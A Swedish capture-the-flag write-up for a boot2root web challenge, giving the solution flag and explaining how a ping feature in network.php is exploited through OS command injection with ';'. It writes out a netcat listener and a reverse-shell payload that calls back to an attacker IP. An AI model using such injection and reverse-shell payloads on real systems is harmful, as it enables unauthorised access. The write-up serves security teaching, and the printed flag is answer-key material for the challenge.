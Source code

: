 # Boot2root: Knowit 1 - Initial

- **Skapare:** Knowit (Fredrik Ljung)
- **Poäng:** 300
- **Antal lösningar:** ???


## Beskrivning

En utvecklare testade leka lite med PHP, men glömde stänga ner webbservern.

Gå till http://13.74.143.253 och se om du kan ta dig in.

Notera: Brute-forcing kommer inte hjälpa dig att hitta flaggan! Dirb, gobuster och liknande är förbjudet.

## Flagga

SSM{knowit_1_Knowit_Secure_h4r_k0nt0r_i_SVeRige_oCh_Norg3_}

## Lösning

När man navigerar till hemsidan och kikar runt märker man att det inte finns något speciellt intressant.
Ett första steg då är att leta efter orefererade sidor. Genom att gå till `/robots.txt` så ser man `/network.php`.

När man kommer till /network.php och trycker på "click me" ser man ett ping-anrop till 8.8.8.8.
Man ser även att IPn kommer från GET parametern `ip`.
Testar man efter OS command injection med exempelvis `&` eller `|` får man till svar `Hacker attempt detected`.
Däremot om man använder `;` går det igenom.
Man kan köra `; sleep 10` för att konfirmera att det är en (blind) OS command injection.
Nästa steg är att sätta upp en lyssnare och skaffa ett shell.

Lyssnare:
```nc -nvlp 5555```

Payload:
```;nc 10.11.0.148 5555 -e /bin/bash```


När man fått ett shell på webbservern så kan man navigera till /home/www-data och läsa ut flaggan med `cat flag.txt`.

